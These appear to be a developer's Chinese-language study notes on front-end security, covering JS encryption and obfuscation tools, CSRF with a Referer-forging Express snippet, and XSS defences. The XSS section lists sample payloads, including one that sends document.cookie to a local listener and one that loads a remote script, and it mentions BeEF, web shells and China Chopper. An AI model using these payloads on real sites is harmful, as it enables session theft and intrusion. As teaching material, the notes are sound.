




# 前端安全

## 前端的加密与混淆
### 加密
js相比其他被编译成二进制应用，前端这种纯文本应用，太容易被解读和审改

加密原则: 减少加密为成本，增加破解的成本，需注意加密后的文件不易过大，没有人工介入不能破解、限制在其他域名部署、不容易被调试跟踪

加密手段: 基于key的和不基于key
> - 1.base64: 编码具有不可读性，用于传输8Bit字节代码的编码方式之一，可用于在HTTP环境下传递较长的标识信息。
> - 2.md5: 是对一段信息产生信息摘要，不可逆，原理是散列函数，使用hash算法，在计算过程中原文的部分信息是丢失了的
> - 3.sha1: 安全哈希算法主要适用于数字签名标准(DSA) - SHA-256、RSA、AES等nodejs加密模块: Crypto - 打包了 OpenSSL hash、HMAC哈希信息验证码、cipher加密、decipher解密、sign签名以及(验证)的功能

### 混淆
> - 常用手段: 重命名局部变量，压缩代码比如去掉尾部分好，常量替换，移除代码空白
> - **注意:全局变量不会更名，如localstorage**
> - 反混淆没什么难度
> - 常用混淆技术:
> - - UglifyJs: 目前流行压缩工具，热度高
> - - Closure Compiler: 开发语言JAVA，热度高
> - - JS Packer: 开发语言PHP，
> - - JS Min: 开发语言C

```
1.UglifyJs过程
- parser: 用于实现抽象语法树(AST)
- the code generator: 通过AST生成JS代码和source map
- compressor: 用于JS代码压缩
- mangler: 用于减少局部变量的重命名，用单字母替换
- scope analyzer: 用来判断 变量定义范围和变量引用范围，说白了就是作用域分析
- tree walker: AST树遍历工具
- tree transformer: AST树转换工具
2.使用
合并: uglifyjs a.js b.js -o c.min.js
压缩: uglifyjs a.js -c
source map: uglifyjs a.js b.js -o c.js --source-map
混淆: uglifyjs a.js -m
```

### 加密工具
1.站长工具，没什么卵用


2.打散提取所有字面量
  - https://jscrambler.com(收费，但也有免费版，包含webpack的，jquery的，nodejs的),这个好，因为它每次提取和打散是随机的，很难还原


3.藏起来的代码: 把代码压缩进图片里，如js2png


## CSRF
跨站伪造请求，它是利用假链接诱导用户，修改用户数据来请求真实网站，造成用户的损失
假设我做了一个假的饿了么“汉堡疯狂大减价”推广链接，你点开了，用你的数据跟真正的饿了么进行授权验证，验证通过了，我就可以拿到你授权数据，然后将送餐地址改成我的，然后我就可以免费餐了


辨别一下 www.taobao.com 与 www.taobao。com  真伪，据说有人被调过鱼 

防范的手段:
> - 1.服务通过判别浏览器http请求头 referer，如果不等于我的域名，就是钓鱼网站，403拒绝请求(也无法保证二级域名是钓鱼网站，而且通过nodejs可以伪造referer因此也不保险)
```
var express = require('express');
var request = require('request');
var app = express();
var options = {
  url: 'http://localhost/csrfdemo/index.php?addr=qqqq',
  headers: {
    // 伪造referer
    'Referer': 'http://a.com'
  }
};
app.get('/',function(req, res){
   request(options. function(err, resp, body){
     res.send(body);
   });
});
```
> - 2.将get请求改成post, 防抓包
> - 3.增加短信验证码(AI可以破解)  
> - 4.token: 就是谁也不信，我只相信我自己的机制：md5戳+时间戳+session上一次访问的时间
> - 5.动态token(类似于网银密码器)


# XSS 跨站脚本攻击
> - 主动向服务器发起攻击，从而让所有访问该服务的用户均受到攻击
> - XSS针对输入进行攻击
> - - 反射型
> 被动的非持久性XSS，诱骗用户点击短型URL,服务器解析后响应，在返回的响应内容中隐藏和嵌入攻击者的XSS代码，从而攻击用户
> - - 持久型
> 也叫存储型XSS——主动提交恶意数据到服务器，当其他用户请求后，服务器从数据库中查询数据并发给用户收到攻击
> - - DOM型
> DOM通过html一个结构执行事件脚本`<script>alert(document.cookie)</script>

或者 "> <script> document.location.href='http://127.0.0.1:9090/xss?foo='+document.cookie</script>
拿到cookie后，那我就可以拿到自己的浏览器器中进行登录，搞破坏了

2.输入框中输入html标签，在标签中嵌入恶意脚本，如src，href，css style等。

;


<BODY BACKGROUND="javascript:alert('XSS')">

<STYLE>li {list-style-image:url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

3.将恶意脚本注入在event事件中，如onClick，onBlur，onMouseOver等事件。

<a onmouseover="alert(document.cookie)">xxslink</a>

4.在remote style sheet，javascript中，如

<LINK REL="stylesheet"HREF="javascript:alert('XSS');">

<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

5.META 标签，如

<meta http-equiv="refresh"content="5" />

<META HTTP-EQUIV="Set-Cookie"Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

### 防XSS手段
> - 1.输入转义 
> - 2.输出转义
> - 3.Cookie HTTP Only
> - 4.CSP 商业机制，设定那些域名，链接可以读取cookie

### MBD防不胜防
> - 1.beef.js + xsser + web shell（利用上传漏洞编写木马）+ 中国菜刀 -> 进行服务器集权 -> 就能在服务器上新建一个用户 -> 呵呵
> - 2.服务商流量劫持(便宜路由、公共wifi)